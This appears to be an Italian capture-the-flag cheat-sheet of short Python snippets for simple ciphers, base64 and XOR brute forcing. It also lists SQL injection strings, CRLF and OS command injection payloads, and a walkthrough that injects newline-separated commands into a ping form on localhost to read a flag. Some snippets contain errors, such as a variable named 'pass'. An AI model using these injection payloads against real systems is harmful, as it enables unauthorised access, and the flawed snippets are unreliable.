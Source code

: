 # Funzioni a caso

### Shifting di una stringa "abc" -> "cde"

```python
input = 'abc'
key = 2
output = ''

for c in input:
    output += chr(ord(c) + key)
print(output)
```

-------------------------

### Generazione stringa random

```python
import random
import string


vocabulary = list(string.ascii_letters) + list(string.digits)
pass = ""
size = 10

for i in range(size):
    random.shuffle(vocabulary)
    pass += vocabulary[0]
print(f"Password: {password}")
```

```python
import random
import string

letters = string.ascii_lowercase

def get_random_string(length):
    result_str = ''.join(random.choice(letters) for i in range(length))
    return result_str

print(get_random_string(8))
```

-------------------------

### Prendere tutti caratteri maiuscoli da file

```python
file1 = open('input.txt', 'r')
lines = file1.readlines()

out = ""
for linea in lines:
    linea = linea.strip()
    for char in linea:
        if ord(char)>64 and ord(char)<=64+32:
            out += char

print(out)
```

-------------------------

### Decodifica da base64 a stringa

```python
import base64
 
b64 = "fYZ7ipGIjFtsXpNLbHdPbXdaam1PS1c5lQ=="
bytes = base64.b64decode(b64)
stringa = bytes.decode("UTF-8")
```

-------------------------

### Bruteforce Cesare da Base64

```python
import base64
 
b64 = "INSERIRE QUI IL BASE64=="
bytes = base64.b64decode(b64)

for i in range (0, 256):
    for byte in bytes:
        print(chr((byte+i)%256), end="")
    print(" ")
```

--------------------

### Decodifica cifrario di Vigenere
<https://www.dcode.fr/vigenere-cipher>

--------------------

### Decodifica cifrario a sostituzione (Substitution)
<https://www.guballa.de/substitution-solver>

--------------------

### Sito per md5, sha1, sha256 ecc...
<https://crackstation.net/>

<https://www.tunnelsup.com/hash-analyzer/>

--------------------

### SQL Injection

```
' OR 1='1
' or 1=1--
```

------------------

### CRLF Attack

```
if an attacker can execute the CRLF attack, he can fake the log content
/index.php?page=home& %0d%0a 127.0.0.1 - 08:15 - /index.php?page=home&restricredredactio=edi
```

------------------

### OS Command Injection Attack

```
http://example.com/ping.php?address=8.8.8.8 %26ls
Note that 26 -> &
```

--------------

### XOR ripetuto con LEN(S1) > LEN(S2)

```python
import string

alph = list(string.ascii_uppercase)
f = open("encrypted", "r").readline()

def customXOR(text, key):
    out = ""
    for i in range(0, len(text)):
        out += (chr( ord(text[i]) ^ ord(key[i%len(key)])))
    return out
                 
for a in alph:
    for b in alph:
        key = a+b
        if "spritz" in customXOR(f, key) : print(customXOR(f, key))
```

------------------------

###  Rimpiazzo caratteri in stringhe

```python
string = "Palle"
new_string = string.replace("e", "a") 
  
print(new_string)   #STAMPA: "Palla"
```

------------------------

### String Interpolation

```python
'%s is smaller than %s' % ('one', 'two')

print("Mr. %s, the total is %.2f." % ("Jekyll", 15.53))
'Mr. Jekyll, the total is 15.33.'

>>> place = "New York"
>>> print("Welcome to %s!" % place)
Welcome to New York!

palle = {"allowed_flag":"sos", "palle1":"palle2"}
str = "flag: %(allowed_flag)s" % palle
print(str)     #stampa "flag: sos"
```

------------------------

### CRLF Injection

<b>CR</b> = Carriage Return (\r) → Codifica HEX: 0x0d, <b>Codifica URL: %0d</b>

<b>LF</b> = Line Feed (\n) → Codifica HEX: 0x0a, <b>Codifica URL: %0a</b>


La combinazione di CRLF è l'effetto del tasto ENTER.

Torna molto utile la codifica URL di CR ed LF per esempio per le Injection.

<br>
Esempio di esercizio:

```html
<html>
<head><title>Can I haz Smart Cat ???</title></head>
<body>
  <h3> Smart Cat debugging interface </h3>

  <form method="post" action="index.cgi">
    <p>Ping destination: <input type="text" name="dest"/></p>
  </form>
  <p>Ping results:</p><br/>
  <pre></pre>
</body>
</html>
```
In cui si richiedeva di trovare la flag a partire da questa pagina dove era possibile effettuare "solamente" il ping. Utilizzare spazi, &&, || e altri comandi di altri tipo risulta inutile in quanto il codice ne previene l'uso.

Se si visualizza il pacchetto POST, nel body si trova dest=indirizzo ip, dove dest sta a identificare l'argomento presente nell'inputbox. Sfruttando il comando curl, possiamo ri-effettuare il comando, scrivendo dest=ipaddr<b>%0a</b>ls. 
```sh
#ls tramite Line feed
curl -XPOST -d 'dest=0.0.0.0%0als' 'http://localhost:8090/'
```
Una volta inviato, da terminale appare l'effetto del ping e il ritorno di ls (in questo caso consiste di un file python e della cartella there). Siccome non sono accettati spazi di alcuni tipo, l'unico modo è utilizzare il comando <b>find</b> per analizzare tutte le sottocartelle, trovando così la posizione della flag.
```sh
#find tramite Line feed
curl -XPOST -d 'dest=0.0.0.0%0afind' 'http://localhost:8090/'
```

Infine, per utilizzare il cat senza spazi, utilizziamo il comando col redirect, ovvero
```sh
cat<path/to/flag.txt

#Caso particolare dell'esercizio
curl -XPOST -d 'dest=0.0.0.0%0acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag' 'http://localhost:8090/'
```

------------------------

### Cifrario a sostituzione 2 figo

```
with open("ciphertext.txt", "r") as ciphertext_file:
    ciphertext = ciphertext_file.read().lower()

trans = str.maketrans(
    "abcdefghijklmnopqrstuvwxyz",
    "IMZOPKSTEBWGNRVL_UJAYHF_DC",
)

print(ciphertext.translate(trans))
```


